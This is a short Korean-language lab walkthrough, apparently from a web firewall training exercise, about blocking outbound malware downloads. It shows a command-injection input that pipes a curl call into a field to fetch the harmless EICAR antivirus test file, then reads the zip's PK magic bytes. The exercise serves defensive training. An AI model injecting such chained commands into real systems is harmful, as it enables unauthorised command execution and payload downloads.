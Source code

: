     
    이번에는 악성코드를 아웃바운드로 다운로드 받는 것을 차단하라고 하네요.  
    
    ![](images/2020-12-04_14-08-10.png)  
    
    아래와 '시작하기'에서 알려준 공격 구문을 Injection하면 eicar 테스트 파일이 다운로드 됩니다.  
    * EICAR 테스트 파일은 Anti-Virus SW를 테스트하기 위해 제작된 파일 악성파일은 아니지만 기본적으로 백신 프로그램에서 악성으로 판단합니다.  

        ```bash
        4.4.2.2 | curl -k https://secure.eicar.org/eicarcom2.zip
        ```
    
    PK로 시작하는 파일 내용이 보이는 것으로 zip파일이라는 것을 알 수 있습니다.  
    (zip파일은 매직넘버가 ASCII로는 PK입니다.)  

    ![](images/2020-12-04_14-09-35.png)  
